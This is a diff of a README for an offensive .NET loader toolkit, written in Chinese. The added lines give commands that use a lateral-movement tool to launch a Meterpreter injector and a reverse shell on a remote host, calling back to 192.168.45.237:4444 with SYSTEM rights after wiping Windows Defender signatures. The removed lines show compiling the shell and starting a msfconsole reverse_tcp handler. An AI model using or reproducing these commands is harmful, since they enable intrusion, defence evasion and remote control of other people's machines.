

Before and after one commit to RasAlGhul-1/MirageShell, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -97,28 +94,15 @@ RevSwap 是一个轻量级 .NET 动态加载器，通过加密与特征码定位
 
-   ![image](assets/image-20260610180009-oos7vfy.png)
-3. 使用 Visual Studio 开发者命令提示符编译（注意平台）：
+```powershell
+# 利用当前凭证在file01上启动 C:\Met64Inject.exe，参数为 IP 、端口、被注入的进程
+C:\windows\temp\lat64.exe file01 SensorService "`"C:\Met64Inject.exe`" 192.168.45.237 4444 Spoolsv"
 
-   ```
-   csc /platform:x64 /out:met64_tcp.exe met64_tcp.cs
-   ```
-4. 在 Kali 上启动监听：
+# 利用当前凭证在file01上启动 met64_tcp.exe，参数为 IP 和端口
+C:\windows\temp\lat64.exe file01 SensorService "C:\shell64_tcp.exe 192.168.45.237 4444"
+```
 
-   ```csharp
-   msfconsole
-   use multi/handler
-   set payload windows/64/meterpreter/reverse_tcp
-   set lport xxxx
-   set lhost xxx.xxx.xxx.xxx
-   run
-   ```
-5. 在目标 Windows 上执行：
+- `lat64.exe` 会先调用 `MpCmdRun.exe -RemoveDefinitions -All` 清除 Windows Defender 签名，再启动指定命令。
+- 执行服务以 SYSTEM 权限运行，非标准服务程序会导致服务启动超时（错误 1053），但命令已成功执行。
 
-   ```csharp
-   met64_tcp.exe <ip> <port>
-   ```
+## 详细介绍
 
-   ![image](assets/image-20260610180411-p15jj01.png)
-
-### 直接下载release使用
-
-自行下载对应架构的exe上传到目标使用
+各模块的详细介绍见对应的文件内的readme，实际上只有`RevShell-Swap`相对写的较全，因为都很类似
````
Also changed, not shown: other parts of README.md (+58 -61 lines).
